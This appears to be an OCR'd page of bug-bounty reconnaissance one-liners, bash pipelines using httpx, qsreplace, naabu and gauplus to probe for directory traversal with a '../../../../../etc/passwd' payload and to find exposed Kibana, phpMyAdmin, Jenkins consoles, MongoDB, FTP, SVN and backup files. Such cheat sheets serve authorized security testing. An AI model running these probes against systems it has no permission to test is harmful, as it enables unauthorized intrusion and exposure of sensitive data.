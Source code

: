 Identify Directory Traversal (Simple Payload)
```bash
cat urls.txt | qsreplace '../../../../../etc/passwd' | httpx -silent -fr 'root:x:' -o directory_traversal.txt
```

Find Open Kibana Dashboards (Sensitive Logs)
```bash
cat subdomains.txt | httpx -silent -path /app/kibana -mc 200 -o open_kibana.txt
```

Detect Exposed Wordpress Debug Logs
```bash
cat subdomains.txt | httpx -silent -path /wp-content/debug.log -mc 200 -o wp_debug_logs.txt
```

Find Exposed FTP Servers (Anonymous Access)
```bash
cat ips.txt | naabu -p 21 -silent -o open_ftp.txt
```

Detect Open MongoDB Databases (No Auth)
```bash
cat ips.txt | naabu -p 27017 -silent -o open_mongo.txt
```

Identify Open PhpMyAdmin Panels
```bash
cat subdomains.txt | httpx -silent -path /phpmyadmin -mc 200 -o open_phpmyadmin.txt
```

Search for Backup Files with Extensions (.bak, .old)
```bash
cat subdomains.txt | gauplus | grep -E '\.bak|\.old|\.backup' > backup_files_found.txt
```

Check for Open Directories (Index of Listings)
```bash
cat subdomains.txt | httpx -silent -mc 200 -fr 'Index of /' -o open_directories.txt
```

Find Public GraphQL Endpoints (API Leaks)
```bash
cat subdomains.txt | httpx -silent -path /graphql -mc 200 -o open_graphql.txt
```

Identify Misconfigured AWS Bucket via Headers
```bash
cat urls.txt | httpx -silent -hx | grep -i 'x-amz' > aws_bucket_leaks.txt
```

Check for Publicly Accessible Jenkins Script Console
```bash
cat subdomains.txt | httpx -silent -path /script -mc 200 -o jenkins_script_console.txt
```

Check for Exposed SVN Files
```bash
cat subdomains.txt | httpx -silent -path /.svn/entries -mc 200 -o svn_leaks.txt
```

